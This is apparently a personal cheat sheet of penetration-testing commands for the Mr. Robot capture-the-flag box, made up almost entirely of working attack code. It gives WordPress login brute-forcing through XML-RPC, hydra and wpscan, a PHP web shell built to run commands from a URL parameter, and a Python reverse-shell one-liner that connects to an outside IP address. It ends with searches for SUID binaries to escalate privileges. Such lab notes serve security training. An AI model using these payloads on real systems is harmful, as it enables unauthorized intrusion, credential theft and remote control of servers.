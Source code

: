 ### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server directories
```bash
WORDLISTS=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt   
gobuster dir -u http://${IP_ADDR} -w ${WORDLISTS} -t 100 -q -o gobuster.txt
```
## How to filter unique string
```bash
wc -l fsocity.dic # number of lines
sort fsocity.dic | uniq | wc -l # unique words
sort fsocity.dic | uniq > example_filtered.txt
```
### A LOTL attack 
```bash
username="admin"
password="password"
for pass in $(cat passwords.txt); do curl -s -X POST -d "<?xml version='1.0'?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>$username</value></param><param><value>$pass</value></param></params></methodCall>" http://10.10.6.115/xmlrpc.php | grep -q 'Incorrect username or password.' || echo "Found credentials: $username:$pass"; done
```
### How to bruteforce input fields with hydra
Username
```bash
IP_ADDR=
hydra -L fsocity.dic -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
hydra -L fsocity.di -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:Invalid Username" -t 30
```
Password
```bash
IP_ADDR=
hydra -l elliot -P fsocity.dic $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
### How to bruteforce input fields with wpscan
```bash
wpscan --url http://${IP_ADDR} --passwords fsocity.dic --usernames Elliot  
```
### How to reverse shell
https://github.com/pentestmonkey/php-reverse-shell
```bash
nc -lvnp 4444
```
### Reverse shell using cmd
archive.php
```bash
<?php
if (isset($_GET['cmd'])) {
    passthru($_GET['cmd']);
}
?>
```
on the URL
```bash
http://3.95.226.44/wp-content/themes/twentyfifteen/archive.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.80.82.197",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### How to escalate priv with SUID bit set
https://gtfobins.github.io/gtfobins/nmap/
```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm +6000 2>/dev/null | grep '/bin/'
```
### How to hack xmlrpc
https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html
### Resource
https://www.blackhillsinfosec.com/hacking-with-hydra/

https://blog.christophetd.fr/write-up-mr-robot/

https://medium.com/@hackermentor/vulnhub-mr-robot-walkthrough-9309702b8e8
